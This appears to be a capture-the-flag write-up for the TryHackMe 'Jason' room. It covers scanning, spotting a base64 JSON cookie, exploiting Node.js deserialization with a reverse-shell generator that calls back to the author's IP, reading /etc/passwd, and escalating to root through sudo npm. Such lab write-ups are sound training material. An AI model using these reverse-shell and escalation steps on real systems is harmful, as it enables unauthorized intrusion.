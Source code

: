 # Trhyhackme Jason Writeup

* [Challenge](https://tryhackme.com/room/jason)

## Enumeration

### `sudo nmap -sV -sC -vv --script vuln -oA nmap-full 10.10.216.3`

* Output
```sh
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-09 18:09 CEST
NSE: Loaded 149 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 18:09
Completed NSE at 18:09, 10.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 18:09
Completed NSE at 18:09, 0.00s elapsed
Initiating Ping Scan at 18:09
Scanning 10.10.216.3 [4 ports]
Completed Ping Scan at 18:09, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:09
Completed Parallel DNS resolution of 1 host. at 18:09, 0.04s elapsed
Initiating SYN Stealth Scan at 18:09
Scanning 10.10.216.3 [1000 ports]
Discovered open port 80/tcp on 10.10.216.3
Discovered open port 22/tcp on 10.10.216.3
Completed SYN Stealth Scan at 18:09, 1.18s elapsed (1000 total ports)
Initiating Service scan at 18:09
Scanning 2 services on 10.10.216.3
Completed Service scan at 18:10, 14.68s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.216.3.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 18:10
NSE Timing: About 98.89% done; ETC: 18:10 (0:00:00 remaining)
NSE Timing: About 98.89% done; ETC: 18:11 (0:00:01 remaining)
NSE Timing: About 98.89% done; ETC: 18:11 (0:00:01 remaining)
NSE Timing: About 98.89% done; ETC: 18:12 (0:00:01 remaining)
Completed NSE at 18:12, 131.13s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 18:12
Completed NSE at 18:12, 0.21s elapsed
Nmap scan report for 10.10.216.3
Host is up, received echo-reply ttl 63 (0.067s latency).
Scanned at 2021-10-09 18:09:50 CEST for 147s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| vulners:
|   cpe:/a:openbsd:openssh:8.2p1:
|       CVE-2020-15778  6.8 https://vulners.com/cve/CVE-2020-15778
|       CVE-2020-12062  5.0 https://vulners.com/cve/CVE-2020-12062
|       MSF:ILITIES/GENTOO-LINUX-CVE-2021-28041/    4.6 https://vulners.com/metasploit/MSF:ILITIES/GENTOO-LINUX-CVE-2021-28041/ *EXPLOIT*
|       CVE-2021-28041  4.6 https://vulners.com/cve/CVE-2021-28041
|       CVE-2021-41617  4.4 https://vulners.com/cve/CVE-2021-41617
[...]
80/tcp open  http    syn-ack ttl 63
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 200 OK
|     Content-Type: text/html
|     Date: Sat, 09 Oct 2021 16:09:57 GMT
|     Connection: close
|     <html>
|     <title>Horror LLC</title>
       [...]
|     </html>
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2005-3299
|_      http://www.exploit-db.com/exploits/1244/
[...]
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 18:12
Completed NSE at 18:12, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 18:12
Completed NSE at 18:12, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 159.18 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1001 (40.036KB)
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-09 18:09 CEST
```

### `ffuf -c -v -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.216.3/FUZZ -fs 3559`
Nothing of interest

### Website
![Alt text](../include/jason/horror_llc.png?raw=true "Landing page")
* Cookie value starts with `eyJlbW`, that's definetly the beginning of a json object encoded as base64.
![Alt text](../include/jason/cookie.png?raw=true "Cookie Value")
* Testing an input value
```sh
whackx@manbox jwt_tool]$ echo "eyJlbWFpbCI6ImJpbGwuZ2F0ZXNAbWljcm9zb2Z0LmNvbSJ9" | base64 -d
{"email":"bill.gates@microsoft.com"}
```
* Assumption: this is the point of interest

### Finding intel
* Data gets serialized via backend node js. 
![Alt text](../include/jason/searchsploit.png?raw=true "Searchsploit")

## Exploit
* After searching for deserialization exploits and getting the hang of it, I spent some time crafting payloads manually without any luck. I took a look at some node shell generators and came up with [this one](https://github.com/hoainam1989/training-application-security/blob/master/shell/node_shell.py). This did the trick. Pasting the payload, and we get a shell
```
python2  tools/reverse_shells/node_shell.py -r -h 10.9.47.11 -p 4448 -e  -o
```
### Enumerating the server
```sh
$id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)

$ pwd
/opt/webapp

$ cat /etc/passwd
[...]
dylan:x:1000:1000:dylan:/home/dylan:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
```
* `dylan` is not in the lxd group.
* Flag is at `/home/dylan/user.txt`

#### Shell upgrade
```sh
uname -a
linux jason 5.4.0-74-generic #83-Ubuntu SMP Sat May 8 02:35:39 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```
* It is ubuntu, shell upgrade will contain a 3 ;)
```sh
python3 -c "import pty;pty.spawn('/bin/bash')"
```
* `stty raw -echo` Locally
* `export TERM=xterm-256color` on target
* Shell is interactive now, `sudo -l` is the next step.
```sh
dylan@jason:/opt/webapp$ sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```
* Take a good look at [gtfobins](https://gtfobins.github.io) and get the root flag
![Alt text](../include/jason/root_shell.png?raw=true "Root shell")
